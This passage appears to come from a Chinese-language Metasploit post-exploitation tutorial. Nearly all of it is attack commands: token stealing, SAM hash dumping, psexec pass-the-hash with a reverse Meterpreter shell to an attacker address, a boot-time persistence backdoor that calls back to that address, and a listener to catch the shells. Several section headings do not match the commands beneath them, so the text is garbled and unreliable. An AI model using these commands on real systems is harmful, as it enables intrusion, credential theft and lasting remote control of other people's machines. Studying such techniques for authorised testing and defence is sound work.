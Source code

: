 ```
steal_token <pid值>   #从指定进程中窃取token   先ps
drop_token  #删除窃取的token
```

2) 注册表设置 nc 后门

```
run post/windows/gather/smart_hashdump  #从SAM导出密码哈希
#需要SYSTEM权限
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f98f61c-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232241-8f98f61c-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fbd4d32-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fbd4d32-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fcc6452-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fcc6452-998c-1.png)

### 0x12. 令牌操纵

1)incognito 假冒令牌

```
msf > use exploit/windows/smb/psexec
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.159.134
msf > set LPORT 443
msf > set RHOST 192.168.159.144
msf >set SMBUser Administrator
msf >set SMBPass aad3b4*****04ee:5b5f00*****c424c
msf >set SMBDomain  WORKGROUP   #域用户需要设置SMBDomain
msf >exploit
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fdf8654-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fdf8654-998c-1.png)

2)steal_token 窃取令牌

```
run persistence –h  #查看帮助
run persistence -X -i 5 -p 6661 -r 192.168.159.134
#-X指定启动的方式为开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fee2862-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232242-8fee2862-998c-1.png)

### 0x13. 哈希利用

1) 获取哈希

```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.159.134
msf > set LPORT 6661
msf > exploit
```
